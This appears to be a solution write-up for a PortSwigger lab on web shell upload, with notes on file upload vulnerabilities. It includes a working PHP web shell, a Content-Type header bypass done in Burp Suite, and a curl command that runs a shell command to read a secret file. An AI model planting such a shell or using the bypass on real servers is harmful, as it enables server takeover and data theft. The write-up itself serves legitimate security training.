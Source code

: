 # 1f2 - Web shell upload via Content-Type restriction bypass \[Portswigger Lab]

This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret.

You can log in to your own account using the following credentials: `wiener:peter`

### Solution:

So upon logging in my account, I can see the avatar upload field.

{{< figure src="/.gitbook/assets/Pasted image 20240719144326.png" alt="" >}}

Testing this functionality by uploading an empty `test.txt` file gives me an error

`Sorry, file type text/plain is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.`

The next thing I tried was to upload the same file but modify the HTTP request using burpsuite and change `Content-Type: Text/Plain` to `Content-Type: image/jpeg`. This bypassed a defense mechanism and as a result it let me upload a text file

{{< figure src="/.gitbook/assets/Pasted image 20240719145007.png" alt="" >}}

Now it's time to upload a web shell `mal.php` with the following contents:

`<?php echo system($_GET['command']); ?>`

{{< figure src="/.gitbook/assets/Pasted image 20240719145330.png" alt="" >}}

Now, since I know that this `mal.php` is uploaded in `/files/avatars/mal.php`, I can call it using CURL.

And we got the secret

```
curl -X GET "https://0a2200b703596e51800635e70004004c.web-security-academy.net/files/avatars/mal.php?command=cat%20../../../../home/carlos/secret"

7nJBS****************************7nJBS****************************
```

remember that calls form curl like this repeats the response twice, so I had to remove the double of this output.

The secret contents: `7nJB****************************`

***

**Impact of FUVs generally depend on two key factors**:

* Which aspect of the file the website fails to validate properly, whether its the size, type, contents...
* what restrictions are imposed once file is uploaded

In the worst case scenario, the file is not validated at all and the server configuration allows certain types to run as code - potentially giving an attacker web shell and full access to a webserver.

In case filename isn't validated properly, an attacker might just replace original file with a malicious one.

Failing to validate file size might also enable an attacker to perform a DoS.

_**How Web servers handle static file requests?**_

Generally, static files on a website can be mapped 1:1 with a filesystem hierarchy.

Nowadays modern applications are dynamic and hence complex. Path of a request may not necessarily represent a filesystem entirely. Nowadays, web servers still deal with static requests for some static files like stylesheets, images etc.

The process for handling such files is historically largely the same. - The server parses the path in the request to identify the file extension. Then uses this information to determine the filetype by comparing it to preconfigured mapping between extensions and MIME types.

* if the file is non-executable like HTML file, it may just send the file in the HTTP response
* if the file is executable like PHP or PYTHON and the server is configured to execute these files, it will assign variables based on the headers and parameters in the HTTP request before executing it. The result may be passed on to HTTP response after.
* if the file is executable, but the server is not configured to run them, it will generally respond with an error or in some cases, just send back the plain text representation of the code to the client. such misconfigurations may lead to code and sensitive data leakage. The `Content-Type` response header may provide clues as to what kind of file the server thinks it has served.

As a precaution, servers generally only run scripts whose filetypes have been explicitly defined to execute. Otherwise they may return an error message or plaintext of source code. In such cases, it might only be possible to leak the source but won't be able to deploy a webshell.

This kind of configuration will have a strict policy for directories where user can upload files than other locations on the filesystem that are assumed to be out of reach from users. If you can find a directory where user-uploaded files are not supposed to be, the code might execute.

Web servers often use the `filename` field in `multipart/form-data` requests to determine the name and location where the file should be saved.
